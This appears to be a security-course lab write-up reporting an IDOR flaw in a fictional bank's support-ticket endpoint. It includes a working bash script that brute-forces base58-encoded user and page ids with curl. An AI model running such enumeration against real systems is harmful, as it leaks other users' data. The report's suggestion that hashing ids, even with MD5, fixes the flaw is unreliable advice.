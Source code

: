 # Insecure direct object reference vulnerability in 'support.quoccabank.com' leads to unauthorized access and information leakage.

## Severity: medium

## Report Summary:

The 'support.quoccabank.com/raw/' endpoint allows for the user to submit support tickets, but utilizes base58 encoding to obfuscate the generated unique id in the format `user_id:page_number`. Therefore by brute force enumeration, one is able to view the files of all users on the database.

## Proof of concepts

This is the bash script that enumerates all the possible ids and page numbers and prints the response code for the user to grep.

```shell
#!/bin/sh
#$1 = id
#$2 = max_number
split_input() {
        local body=$(echo $response| sed 's/{.*}//')
        local json=$(echo $response| sed 's/.*{/{/')
        local response_code=$(echo $json| jq '.response_code')
        echo "number = $i,code = $response_code, file= $file"
        #echo $body
        #echo $json
        if [ $response_code -eq "200" ]
        then
                echo $body | grep '6443'
        fi
}
for i in $(seq 0 10000)
do
        file=$(echo -n "$i:1"| base58)
        #file=$(echo -n "$1:$i"| base58)
        response=$(curl -s --proxy http://127.0.0.1:8080 -k -i "https://support.quoccabank.com/raw/$file" --write-out '%{json}')
        split_input $response $i $file
        sleep 0.1
done
```

For this endpoint `https://support.quoccabank.com/raw/RVnSH2uR` aka `raw/1125:4` encoded in base58

![image-20210709200443014](./images/support1.png)

Similarly `https://support.quoccabank.com/raw/VVBWU75i` aka `raw/9447:1` 

![image-20210709200651795](./images/support2.png)

## Steps to reproduce 

You can either run the brute forcing script to find out other users ids, pages or you can just pipe the above input into [Cyberchef](https://gchq.github.io/CyberChef/) as shown in the figure below, then paste it into 'https://support.quoccabank.com/raw/{base58(input)}' and there will be information leakage.

![image-20210709200812817](./images/support3.png)

 ## Recommendations 

Security by obscurity is not the proper method to securing a web application, encoding is not the same as encrypting and obfuscation on the id codes are easily defeated by brute force methods or just people who are capable and willing to spend a lot of time to defeat any mechanisms. Other methods for generating unique tokens such as a hash algorithm, preferably not MD5, but even MD5 is better than base58.

